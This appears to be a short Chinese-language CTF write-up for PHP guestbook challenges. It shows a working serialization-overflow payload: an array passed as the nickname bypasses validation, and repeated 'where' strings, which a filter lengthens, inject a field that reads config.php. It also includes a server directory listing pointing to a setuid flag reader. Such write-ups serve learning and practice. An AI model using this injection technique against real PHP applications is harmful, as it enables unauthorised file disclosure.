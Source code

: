 有一个有问题的判断是nickname的判断
```
if(preg_match('/[^a-zA-Z0-9_]/', $_POST['nickname']) || strlen($_POST['nickname']) > 10)
			die('Invalid nickname');

```
研究了下如果传入的是数组的话，这里的两个判断都能过

正常传入的话，是正常的语句
```
a:4:{s:5:"phone";s:11:"12345678901";s:5:"email";s:17:"email@email.email";s:8:"nickname";a:1:{i:0;s:3:"xxx";}s:5:"photo";s:39:"upload/0cc175b9c0f1b6a831c399e269772661";}
```
序列化室友严格的长度的，如果长度错误，解序列化就是会报错停止。
我们需要试图构造一个`nickname[]=xxx";}s:5:"photo";s:10:"config.php`这样如果溢出，就能读取config.php的信息。

这里有个问题一直没想明白，看了writeup才知道这里是通过filter里的where->hacker会溢出一个字符，这样如果传入和需要溢出的一样长的where，就会溢出一个完整的请求，就不会报错。

```
nickname[]=wherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewhere";}s:5:"photo";s:10:"config.php
```
get!

## guestbook2

writeup还没出，先占坑。
```
total 100 
drwxr-xr-x 22 root root 4096 Mar 9 14:53 . 
drwxr-xr-x 22 root root 4096 Mar 9 14:53 .. 
drwxr-xr-x 2 root root 4096 Mar 7 14:25 bin 
drwxr-xr-x 3 root root 4096 Mar 7 14:26 boot 
drwxr-xr-x 15 root root 4100 Mar 13 13:11 dev 
drwxr-xr-x 96 root root 4096 Mar 13 13:20 etc 
-r--r----- 1 flag flag 29 Mar 9 13:59 flag 
-r-sr-x--- 1 flag www-data 8709 Mar 9 14:52 flag_reader 
drwxr-xr-x 5 root root 4096 Mar 9 13:59 home 
lrwxrwxrwx 1 root root 32 Mar 7 14:26 initrd.img -> boot/initrd.img-4.2.0-30-generic lrwxrwxrwx 1 root root 32 Mar 7 22:07 initrd.img.old -> boot/initrd.img-4.2.0-27-generic drwxr-xr-x 21 root root 4096 Mar 9 00:17 lib 
drwxr-xr-x 2 root root 4096 Mar 7 22:07 lib64 
drwx------ 2 root root 16384 Mar 7 22:07 lost+found 
drwxr-xr-x 3 root root 4096 Mar 7 22:07 media 
drwxr-xr-x 2 root root 4096 Apr 11 2014 mnt 
drwxr-xr-x 2 root root 4096 Feb 18 07:12 opt 
dr-xr-xr-x 129 root root 0 Mar 13 13:11 proc 
drwx------ 10 root root 4096 Mar 14 07:03 root 
drwxr-xr-x 19 root root 720 Mar 14 22:22 run 
drwxr-xr-x 2 root root 4096 Mar 7 14:25 sbin 
drwxr-xr-x 2 root root 4096 Feb 18 07:12 srv 
dr-xr-xr-x 13 root root 0 Mar 13 14:29 sys 
drwxrwxrwt 2 root root 4096 Mar 15 13:09 tmp 
drwxr-xr-x 10 root root 4096 Mar 7 22:07 usr 
drwxr-xr-x 13 root root 4096 Mar 8 23:24 var 
lrwxrwxrwx 1 root root 29 Mar 7 14:26 vmlinuz -> boot/vmlinuz-4.2.0-30-generic 
lrwxrwxrwx 1 root root 29 Mar 7 22:07 vmlinuz.old -> boot/vmlinuz-4.2.0-27-generic
```
发现了flag，但是读不了，看到有个flag_reader，跑一下就好。
